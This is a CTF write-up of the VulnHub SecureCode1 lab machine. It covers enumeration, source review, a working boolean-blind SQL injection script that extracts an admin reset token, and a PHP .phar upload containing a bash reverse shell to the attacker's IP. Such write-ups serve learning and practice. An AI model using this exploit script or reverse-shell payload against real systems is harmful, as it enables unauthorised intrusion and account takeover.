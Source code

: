 ```yaml
---
layout: post
title:  VulnHub SecureCode1 Write-Up
description: OSWE-like vulnerable machine write-up.
image: /assets/400x400.jpg
author: thr3athunt3r
date:   2021-05-29 02:00:00 +0800
categories: ctf
---
```


### 1. Service Discovery: 
#### Basic port knocking on all ports
```bash
nmap -p- -v 192.168.139.143
```

![](/assets/securecode1/securecode1_nmap_1.png)

#### Port service enumeration
```bash
nmap -sC -sV -O -Pn -o nmap.txt 192.168.139.143
```

![](/assets/securecode1/securecode1_nmap_2.png)

### 2. Content Discovery: 
#### Default root directory content on http service
- We can determine the server has php running on backend by appending `index.php` on root directory.

![](/assets/securecode1/securecode1_home.png)

#### Brute force contents on target server
```bash
ffuf -u http://192.168.139.143/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 -e .php,.html,.rar,.7zip,.tar.gz,.gz,.zip,.bak -o ffuf.txt -fs 3650
```

![](/assets/securecode1/securecode1_ffuf.png)

#### Valid users can be enumerated through `resetPassword.php`
- `admin` user enumerated, password has been reset

![](/assets/securecode1/securecode1_reset2.png)

![](/assets/securecode1/securecode1_reset.png)

![](/assets/securecode1/securecode1_reset_pw.png)

#### Basic authentication tests attempted with username `admin` but nothing works
![](/assets/securecode1/securecode1_test.png)

#### Download `source_code.zip` that we found earlier
![](/assets/securecode1/securecode1_download.png)

### 3. Source Code Analysis: 
#### Unzipped content structure of `source_code.zip`
![](/assets/securecode1/securecode1_unzipped.png)

#### `/db.sql`
- One of the tables in database named `user`
- `user` table has these columns: `id`, `username`, `password`, `email`, `gender`, `id_level`, `token`

![](/assets/securecode1/securecode1_db.png)

#### `/login/resetPassword.php`
- A token with 15 alphanumeric characters was generated and sent to admin's mailbox
- We can reset admin's password via `http://192.168.139.143/login/doResetPassword.php?token=<TOKEN>`

![](/assets/securecode1/securecode1_reset_php.png)

#### `/item/viewItem.php`
- Most of the contents in the server require authenticated access, except this
- `id` paramerter vulnerable to SQL injection
- `mysqli_real_escape_string` method only sanitize some special characters
- User input was not fully sanitized, we can still perform SQL injection without any special characters

![](/assets/securecode1/securecode1_view.png)

#### `/item/updateItem.php`
- PHP file upload is possible with .phar extension

![](/assets/securecode1/securecode1_update.png)

### 4. Testing SQL Injection: 
#### Boolean-based blind SQL 
- if *TRUE*

![](/assets/securecode1/securecode1_burp_1.png)

- if *FALSE*

![](/assets/securecode1/securecode1_burp_2.png)

#### Extract admin's password reset `token` from `user` table
- `exploit.py`

```python
#!/usr/bin/python3
import requests

token = ''
position = 1

while(1):
    for i in range(0,255):
        url = 'http://192.168.139.144/item/viewItem.php?id=1+AND+(SELECT+IF(1,(ASCII(SUBSTRING((SELECT+token+FROM+user+where+id=1),'
        + str(position) + ',1))=' + str(i) + '),0))'
        r = requests.get(url)
        if r.status_code == 404:            
            token = token+str(chr(i))
            position = position + 1
            print(token)
    if len(token) == 15:        
        break
```
![](/assets/securecode1/securecode1_exploit.png)

#### Reset admin's password with that token

![](/assets/securecode1/securecode1_change_pw.png)

#### Logged in with new password and we got our first flag

![](/assets/securecode1/securecode1_login.png)

### 5. Insecure File Upload to RCE: 
#### Create a simple php reverse web shell
- `backdoor.phar`

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.139.132/3344 0>&1'"); ?>
```

#### Upload the web shell by editing any of the existing items
![](/assets/securecode1/securecode1_shell.png)

#### Listen port on our attacker machine
![](/assets/securecode1/securecode1_listen.png)

#### Refresh the web page and we've got our shell
![](/assets/securecode1/securecode1_refresh.png)

![](/assets/securecode1/securecode1_enter.png)

#### Also the second flag
![](/assets/securecode1/securecode1_flag2.png)

### 6. Finished

*Only 2 flags in this machine.*
<br>
<br>
<br>

